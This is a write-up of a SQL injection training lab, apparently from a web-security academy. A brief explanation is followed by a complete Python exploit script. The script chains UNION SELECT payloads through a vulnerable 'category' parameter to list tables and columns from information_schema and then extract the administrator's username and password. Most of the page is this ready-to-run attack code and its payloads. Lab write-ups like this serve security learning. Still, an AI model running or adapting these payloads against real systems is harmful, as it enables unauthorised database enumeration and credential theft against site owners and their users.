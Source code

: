 ```yaml
---
title: '5 SQLi Lab'
description: 'SQL injection for metadata enumeration and admin credential extraction'
---
```



## SQL injection attack, listing the database contents on non-Oracle databases

<div style="text-align: justify;">
  In this lab, I explored how SQL injection (SQLi) vulnerabilities can be escalated beyond authentication bypass to full database enumeration. The lab targeted a non-Oracle database (like MySQL or Microsoft SQL Server), using metadata tables such as `information_schema.tables` and `information_schema.columns`.

  By chaining multiple `UNION SELECT` injections, I was able to list all table names, extract sensitive column names like `username` and `password`, and ultimately retrieve administrator credentials. The exercise demonstrated how exposing metadata through SQLi can lead to complete account compromise — a common, yet severe, backend vulnerability.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `category` parameter is vulnerable to SQL injection.
- A `UNION SELECT` is used to list table names from `information_schema.tables`.
- Another injection pulls column names from `information_schema.columns`.
- The script identifies the table that stores user credentials.
- A final injection dumps usernames and passwords.
- Admin credentials are extracted from the output.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def Get_User_Table(url):
    uri = '/filter?category='
    payload = '\' UNION+SELECT table_name, NULL FROM information_schema.tables--'
    r = requests.get(url + uri + payload , verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    for th in soup.find_all('th'):
        if th.text.startswith('users_'):
            user_value = th.text
            break
    
    return user_value


def Get_columns(url, Table_Name):
    uri = '/filter?category='
    payload = f"'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='{Table_Name}'--"
    r = requests.get(url + uri + payload , verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    for th in soup.find_all('th'):
        if th.text.startswith('username_'):
            user_value = th.text
            break

    for th in soup.find_all('th'):
        if th.text.startswith('password_'):
            password_value = th.text
            break
    
    return user_value, password_value


def Get_Administrator_Credentials(url, Get_User_Table, table_name):
    user, pwd = Get_User_Table
    payload = f"' UNION SELECT {user}, {pwd} FROM {table_name}--"
    uri = '/filter?category='
    r = requests.get(url + uri + payload , verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    
    
    # Find the row where <th> contains "administrator"
    admin_row = soup.find('th', string='administrator')

    if admin_row:
        admin_username = admin_row.text.strip()
        admin_password = admin_row.find_next_sibling('td').text.strip()
        print("Username:", admin_username)
        print("Password:", admin_password)
    else:
        print("Administrator entry not found.")


if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" %sys.argv[0])
        print('[-] Example: %s www.example.com ' % sys.argv[0])
        sys.exit(-1)    
    
    Get_Administrator_Credentials(url, Get_columns(url, Get_User_Table(url)), Get_User_Table(url))                    
```


<Comment />

